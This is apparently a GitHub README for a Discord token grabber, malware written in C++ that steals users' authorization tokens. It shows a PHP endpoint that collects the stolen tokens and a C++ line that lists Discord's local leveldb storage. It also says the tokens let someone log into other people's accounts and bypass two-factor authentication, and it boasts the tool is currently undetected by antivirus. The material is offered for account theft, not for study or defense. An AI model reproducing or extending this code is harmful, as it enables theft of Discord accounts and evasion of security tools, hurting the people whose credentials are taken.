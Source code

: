 # Discord Token Grabber
A Discord token grabber written in C++.

This is a "token" or authorization key finder for the platform "Discord".

You can use "tokens" to login to other people's accounts with the authorization key bypassing 2fa.

# Web
The web code is very basic and tokens can be accessed by anyone so I would recommend changing it.
```php
<?php

if(isset($_GET["t"])){
	$file = fopen("tokens.txt", "w");
	$content = file_get_contents("tokens.txt");

	if(strpos($content, $_GET["t"]) === false){
		fwrite($file, $_GET["t"]);
	}
}

?>

```

# Client
This code is not very well written as I'm using C++/14 and filesystem is still experimental.
As you can see here it's a hardcoded solution but it works fine for this purpose.
```cpp
auto files = split(exec("cd %appdata%/discord/Local Storage/leveldb && dir /n /b *"), "\n");
```

# Detection
Since it's fresh and not copied it is currently undetected

![Detection](https://antiscan.me/images/result/huIT9opQ9Off.png)
